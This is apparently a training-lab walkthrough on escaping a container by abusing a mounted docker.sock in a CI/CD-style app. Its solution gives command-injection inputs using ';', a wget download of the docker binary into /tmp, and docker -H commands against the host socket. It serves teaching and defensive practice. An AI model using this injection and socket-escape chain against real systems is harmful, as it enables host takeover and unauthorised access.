 # ⎈ DIND (docker-in-docker) exploitation

## 🙌 Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from underlying container runtime. This has been exploited since the early days of the container ecosystem and till today we see this misconfiguration/use cases in the real world. 

![Scenario 2](images/scenario-2.png)

By the end of the scenario, we will understand and learn the following

1. You will learn to test and exploit the container UNIX socket misconfigurations
2. Able to exploit container and escape out of the docker container
3. Learn common misconfigurations in pipelines and CI/CD build systems

### ⚡️ The story

Most of the CI/CD and pipeline systems use the underlying host Docker runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit this misconfiguration and gain access to the host system by escaping out of the docker container.

:::info

* To get started with the scenario, navigate to [http://127.0.0.1:1231](http://127.0.0.1:1231)

:::

![Scenario 2 welcome](images/sc-2-1.png)

### 🎯 Goal

The goal of this scenario is to escape out of the running docker container to the host system where the container is running and able to access and perform actions on the host system.

:::tip

If you can able to obtain container images in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Do you know how to run multiple commands in Linux? </b></summary>
  <div>
    <div>The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimiter when passing the input 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Able to run system commands, not sure how to access containers? </b></summary>
  <div>
    <div>Identify the mounted UNIX socket volume, and use docker binary to communicate with that with <b>-H</b> flag 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

* Start by checking that DNS resolution is working for your cluster. If this doesn't work, check to see if you have a DNS service like CoreDNS running on your cluster.

```bash
www.google.com
```

:::tip
* if you get your local domain appended, try using

```bash
www.google.com.
```

* If you have to do this, you should always add a . after a url, even in wget commands. The extra dot is required is that kubernetes has a default option of ndots:5 in /etc/resolv.conf, which is verifiable in this scenario. This means that unless a minimum of 5 dots are present, the domain is not assumed to be a FQDN.
:::


* By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```

![Scenario 2 Command Injection](images/sc-2-2.png)

* As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain

* It contains `docker.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```

![Scenario 2 mount](images/sc-2-3.png)

* Wow! we can see the `/custom/docker/docker.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket

:::tip

We can use multiple methods for communicating with the `docker.sock` UNIX socket. Some of them include [official docker binary](https://download.docker.com/linux/static/stable/), or a simple `curl` program as well.  

:::

* Next we can download the official `docker` static binary from the internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/). In order to determine which binary we need, we can run the following command for system discovery

```bash
;uname -a
```

* We can examine the output to determine our system architecture and OS, then download the appropriate docker binary to the container. For example, if our target system is a x86\_64 Linux box, we can use the following command

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

* We can extract the binary from the `docker-19.03.9.tgz` file so that we can use that to talk to the UNIX socket

```bash
;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

![Scenario 2 extract binary](images/sc-2-4.png)

* Now we can access the host system by running the following docker commands with passing `docker.sock` UNIX socket

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![Scenario 2 list host images](images/sc-2-6.png)

* Hooray 🥳 , now we can see that it has a lot of container images in the host system. We can now use different docker commands to gain more access and further exploitation

## 🔖 References

* [Protect the Docker daemon socket](https://docs.docker.com/engine/security/protect-access/)
